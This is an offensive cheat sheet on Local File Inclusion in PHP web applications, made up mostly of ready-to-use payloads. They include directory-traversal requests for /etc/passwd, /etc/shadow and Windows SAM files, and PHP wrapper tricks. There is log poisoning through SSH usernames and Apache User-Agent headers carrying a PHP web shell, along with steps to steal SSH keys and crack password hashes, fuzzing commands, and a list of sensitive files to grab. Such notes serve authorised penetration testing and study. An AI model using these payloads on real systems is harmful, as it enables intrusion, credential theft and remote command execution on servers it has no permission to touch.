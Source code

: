## LFI Local File Inclusion
### Table of Contents
- [LFI Local File Inclusion](#lfi-local-file-inclusion)
  * [Table of Contents](#table-of-contents)
  * [Introduction](#introduction)
    + [Example:](#example-)
  * [Directory Traversal](#directory-traversal)
    + [Basic Linux Test](#basic-linux-test)
  * [PHP Wrappers](#php-wrappers)
    + [PHP Expect Wrapper](#php-expect-wrapper)
    + [PHP Filter Wrapper](#php-filter-wrapper)
  * [RCE via SSH](#rce-via-ssh)
  * [RCE via Apache logs](#rce-via-apache-logs)
  * [LFI to RCE via credentials files](#lfi-to-rce-via-credentials-files)
    + [Windows version](#windows-version)
    + [Linux version](#linux-version)
  * [Automated LFI with Wfuzz](#automated-lfi-with-wfuzz)
  * [Resources](#resources)
- [Requests to look out for](#requests-to-look-out-for)
  * [Fuzzing for subdomains](#fuzzing-for-subdomains)
  * [Files to grab if you get LFI](#files-to-grab-if-you-get-lfi)

### Introduction
- An attacker can use Local File Inclusion (LFI) to trick the web application into exposing or running files on the web server.
- LFI occurs when an application uses the path to a file as input. If the application treats this input as trusted, a local file may be used in the include statement.
#### Example:
````
/**
* Get the filename from a GET input
* Example - http://example.com/?file=filename.php
*/
$file = $_GET['file'];

/**
* Unsafely include the file
* Example - filename.php
*/
include('directory/' . $file);
````
- In the above example, an attacker could make the following request. It tricks the application into executing a PHP script such as a web shell that the attacker managed to upload to the web server.
````
http://example.com/?file=../../uploads/evil.php
````
### Directory Traversal
- Even without the ability to upload and execute code, a Local File Inclusion vulnerability can be dangerous. 
- An attacker can still perform a Directory Traversal / Path Traversal attack using an LFI vulnerability as follows.
````
http://example.com/?file=../../../../etc/passwd
````
- Testing 
- If you see a webpage URL look like this:
````
/script.php?page=index.html 
````
#### Basic Linux Test
Test for:
````
/script.php?page=../../../../../../../../etc/passwd
````
### PHP Wrappers
- PHP has a number of wrappers that can often be abused to bypass various input filters.
#### PHP Expect Wrapper
- `PHP expect://` allows execution of system commands, unfortunately the expect PHP module is not enabled by default
````
php?page=expect://ls
````
#### PHP Filter Wrapper
`php://filter` allows a pen tester to include local files and base64 encodes the output. Therefore, any base64 output will need to be decoded to reveal the contents.
````
vuln.php?page=php://filter/convert.base64-encode/resource=/etc/passwd  
````
- `php://filter` can also be used without base64 encoding the output using:
````
?page=php://filter/resource=/etc/passwd
````
### RCE via SSH
- Try to ssh into the box with a PHP code as username <?php system($_GET["cmd"]);?>.
````
ssh <?php system($_GET["cmd"]);?>@10.10.10.10
````
- Then include the SSH log files inside the Web Application.
````
http://example.com/index.php?page=/var/log/auth.log&cmd=id
````
### RCE via Apache logs
- Poison the User-Agent in access logs:
````
curl http://example.org/ -A "<?php system(\$_GET['cmd']);?>"
````
- Note: The logs will escape double quotes so use single quotes for strings in the PHP payload.
- Then request the logs via the LFI and execute your command.
````
curl http://example.org/test.php?page=/var/log/apache2/access.log&cmd=id
````
### LFI to RCE via credentials files
- This method require high privileges inside the application in order to read the sensitive files.
#### Windows version
- First extract sam and system files.
````
http://example.com/index.php?page=../../../../../../WINDOWS/repair/sam
http://example.com/index.php?page=../../../../../../WINDOWS/repair/system
````
- Then extract hashes from these files samdump2 SYSTEM SAM > hashes.txt, and crack them with hashcat/john or replay them using the Pass The Hash technique.
#### Linux version
- First extract /etc/shadow files.
````
http://example.com/index.php?page=../../../../../../etc/shadow
````
- Then crack the hashes inside in order to login via SSH on the machine.
- Another way to gain SSH access to a Linux machine through LFI is by reading the private key file, id_rsa. 
- If SSH is active check which user is being used `/proc/self/status` and `/etc/passwd` and try to access `/<HOME>/.ssh/id_rsa`.
### Automated LFI with Wfuzz
- Automate LFI Tests
- Download the `traversal.txt` file in this folder (from PayloadAllTheThings)
- Test with `wfuzz`
````
wfuzz -u "http://10.10.218.222/article?name=FUZZ" -w traversal.txt | grep 200
````
- `grep 200` for the `Ok` status code
- `w` -> the wordlist
- `?name=FUZZ` -> the parameter you want to fuzz
  ### Resources
- https://www.aptive.co.uk/blog/local-file-inclusion-lfi-testing/
- https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion#lfi-to-rce-via-phpinfo
## Requests to look out for
- ![alt text](https://miro.medium.com/max/2400/1*uMZmYUNcqjh4Rht11nGQDw.png)
- We notice the request with a `?` indicating possible LFI but we are not sure the paramater it wants
- Attempt to fuzz the parameter for command injection and file inclusion
- Wordlist to use:
````
traversal.txt
/usr/share/Seclists/Discovery/Web-Content/burp-parameter-names.txt
````
- Use FFuF, or wfuzz
### Fuzzing for subdomains 
````
ffuf -u http://vulnnet.thm -H "Host: FUZZ.vulnnet.thm" -w /usr/share/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -fs 5829
````
- ### Files to grab if you get LFI
````
/etc/passwd
/etc/shadow
/etc/hosts
CMS Config Files
/etc/apache2/.htpasswd
/etc/apache2/apache2.conf
/etc/httpd/httpd.conf
/etc/httpd/conf/httpd.conf
/usr/local/apache2/apache2.conf
C:\Program Files\Apache Software Foundation\Apache2.4\
````
















